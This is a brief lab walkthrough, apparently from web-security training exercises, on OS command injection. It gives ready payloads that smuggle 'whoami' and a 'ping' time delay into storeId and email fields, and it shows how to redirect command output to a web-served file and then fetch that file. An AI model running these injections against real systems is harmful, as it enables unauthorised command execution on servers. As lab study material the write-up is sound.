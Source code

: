 
# Lab: OS command injection, simple case

Change the storeId to:
```
productId=1&storeId=2%26whoami%26
```


# Lab: Blind OS command injection with time delays
Add a ping dalay injection to the email parameter in order to execute linux shell command during the submit feedback

From:
```
csrf=rhjQbHdiNxnIt2k3noaWaGVhsmRC5eeS&name=asas&email=asas%40aas&subject=dsd&message=sdsdsd
```
To:
```
csrf=rhjQbHdiNxnIt2k3noaWaGVhsmRC5eeS&name=asas&email=asas%40aas$(ping+-c+10+127.0.0.1)&subject=dsd&message=sdsdsd
```

# Lab: Blind OS command injection with output redirection
Inject the write into the email
```
POST /feedback/submit HTTP/1.1
...
csrf=NgUfcXL1JL8wMtVIvLsEGjFwx3ApBMr5&name=asdf&email=asdff%40asdf$(whoami+>+/var/www/images/whoami.txt)&subject=afd&message=asdf
```
After that you should be able to intercept somme GET for real image in the site and change the path to your txt file to retreive it
```
GET /image?filename=whoami.txt HTTP/1.1
```

